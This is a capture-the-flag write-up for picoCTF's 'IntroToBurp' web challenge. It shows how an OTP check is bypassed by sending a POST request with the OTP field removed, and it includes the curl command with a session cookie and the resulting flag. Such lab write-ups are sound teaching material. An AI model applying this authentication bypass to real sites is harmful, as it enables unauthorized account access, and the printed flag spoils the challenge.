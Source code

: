 # IntroToBurp:Web Exploitation:100pts
Try [here](http://titan.picoctf.net:58326/) to find the flag  

Hints  
1  
Try using burpsuite to intercept request to capture the flag.  
2  
Try mangling the request, maybe their server-side code doesn't handle malformed requests very well.  

# Solution
The URL is passed.  
When I accessed it, it was a Registration form.  
![site1.png](site/site1.png)  
When you enter and submit, you will be asked for an OTP.  
![site2.png](site/site2.png)  
`1`If you enter it appropriately and send it,`http://titan.picoctf.net:58326/dashboard`POST to 'otp=1'.  
For the time being, I thought of erasing it and POST.  
```bash
$ curl -X POST http://titan.picoctf.net:58326/dashboard -H 'Cookie: session=.eJwtzMsOwiAQBdBfMaxdQBGw_obdk-EVsS00PGIa4787mi7nzL33TWxsO7mRKc97Jmdiawm65dknROkYN8qAsaOSjPIRBDNwlV6pQDkXzDlnKVywF_qy6ASrx9odcCCeptqfEV-5bYiCDVIOeG5Q6ysXh1b_wZ89cvI69dX4gk6RevXl2Dtiny8s1DZQ.Zfm_sQ.rG5nVfmHj-E4HkfVggyivtGpuV0'
Welcome, satoki you sucessfully bypassed the OTP request.
Your Flag: picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}
```
flag was obtained (I feel a Guess CTF that I saw somewhere). 

## picoCTF{#0TP_Bypvss_SuCc3$S_e1eb16ed}